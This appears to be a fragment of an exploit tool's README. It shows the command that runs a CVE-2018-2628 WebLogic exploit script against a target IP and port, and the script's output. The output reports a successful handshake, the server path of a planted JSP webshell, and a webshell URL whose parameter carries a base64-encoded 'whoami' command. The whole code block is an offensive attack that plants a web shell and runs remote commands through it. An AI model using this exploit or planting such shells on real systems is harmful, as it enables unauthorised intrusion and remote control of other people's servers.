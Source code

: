 ```Python cve-2018-2628_webshell.py IP PORT shell1.jsp
[*] handshake successful
[*] usage: python cve-2018-2628.py ip port shell1.jsp
[+] Shell Dir: servers\AdminServer\tmp\_WL_internal\bea_wls_internal\9j4dqk\war\shell1.jsp

[+] Webshell: http://IP:PORT/bea_wls_internal/shell1.jsp?tom=d2hvYW1pCg==
```
